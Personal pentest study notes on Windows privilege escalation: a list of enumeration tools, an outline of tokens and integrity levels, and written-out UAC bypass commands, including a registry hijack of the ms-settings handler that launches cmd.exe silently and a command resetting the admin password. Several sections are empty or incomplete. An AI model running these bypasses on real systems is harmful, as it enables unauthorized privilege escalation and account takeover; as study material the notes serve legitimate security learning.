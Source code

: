 # Windows Privilege Escalation

Extract useful information using scripts:

1. [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
2. [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
3. [Watson](https://github.com/rasta-mouse/Watson)
4. [Seatbelt](https://github.com/GhostPack/Seatbelt)
5. [Powerless](https://github.com/M4ximuss/Powerless)

## Basics

* Windows operating system uses objects called **access tokens** to enforce privileges on a user account
* These tokens are uniquely identified using a security identifier or **SID**
* **Integrity levels** are assigned to processes and securable objects
  1. System integrity process: SYSTEM rights
  2. High integrity process: administrative rights
  3. Medium integrity process: standard user rights
  4. Low integrity process: very restricted rights

## UAC Bypass

### Non-silent Method

* What is the current user's **integrity level**?

        whoami /groups

* Attempt to change the password for the admin user

        net user admin password123

* In order to change the admin user’s password, we need to **switch to a high integrity level** even if we are logged in as an administrator.

        powershell.exe Start-Process cmd.exe -Verb runAs

* Re-check the integrity level of current user, and, try changing the admin password

        whoami /groups
        net user admin password123

Note: When running at a high integrity level, password of a user can be changed successfully.

### Silent Method

* Identify a binary that runs at a high integrity level
* Inspect the applicatioin manifest

        .\sigcheck64.exe -accepteula
        .\sigcheck.exe -a -m C:\Windows\System32\file.exe

* Add a missing registry key

        REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command

* Use **REG ADD** with the `/v` argument to specify the value name and `/t` to specify the type

        REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ

* Silently replace the empty (Default) value of a registry key with path to an executable, e.g., `cmd.exe`

        REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f

* Run the vulnerable executable
* Re-check the integrity level of current user, and, try changing the admin password

        whoami /groups
        net user admin password123

## Kernel driver vulnerabilities

c:\users\kostas\desktop\hfs.exe

## Insecure file permissions



## Unquoted service paths



## References

* https://medium.com/bugbountywriteup/privilege-escalation-in-windows-380bee3a2842#:~:text=Services%20created%20by%20SYSTEM%20having,be%20executed%20with%20SYSTEM%20privileges